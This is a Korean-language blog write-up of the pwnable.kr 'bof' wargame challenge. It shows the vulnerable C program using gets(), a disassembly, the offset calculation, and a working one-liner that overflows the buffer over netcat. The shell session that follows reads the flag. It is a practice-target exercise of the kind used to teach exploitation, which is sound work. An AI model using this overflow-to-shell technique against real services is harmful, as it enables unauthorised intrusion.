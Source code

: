 ```yaml
---
layout: post
title: Pwnable.kr bof
categories: [Wargame]
comments: true
---
```


bof문제의 파일을 읽어보면 다음과 같다.

{% highlight c %}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);    // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
{% endhighlight %}

func함수에서 `gets`의 취약점을 이용하여 overflow를 수행하는 문제이다. 이 프로그램을 파악해 보면 다음과 같다.

```
gdb-peda$ pdisas func
Dump of assembler code for function func:
   0x0000062c <+0>:    push   ebp
   0x0000062d <+1>:    mov    ebp,esp
   0x0000062f <+3>:    sub    esp,0x48
   0x00000632 <+6>:    mov    eax,gs:0x14
   0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:    xor    eax,eax
   0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c ; "overflow me : "
   0x00000644 <+24>:    call   printf
   0x00000649 <+29>:    lea    eax,[ebp-0x2c] ; char overflowme[32]
   0x0000064c <+32>:    mov    DWORD PTR [esp],eax
   0x0000064f <+35>:    call   gets
   0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
 ... 
```

먼저 `call printf`를 수행한다. 그 후 `gets`를 호출한다. 이 때 `ebp - 0x2c`의 위치에 **overflowme**라는 배열이 들어있음을 확인할 수 있다.

그 후 `ebp + 0x8`의 값과 0xcafebabe를 비교한다. overflow시켜야할 총 데이터는 0x2c + 0x8의 값을 덮어쓰고, 그 후에 원하는 데이터를 덮어야 한다.

값은 **리틀엔디안**이므로 반대로 넣어주면 된다.

{% highlight bash %}
ubuntu@ubuntu:~$ (python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
super.pl
cat flag
daddy, I just pwned a buFFer :)
{% endhighlight %}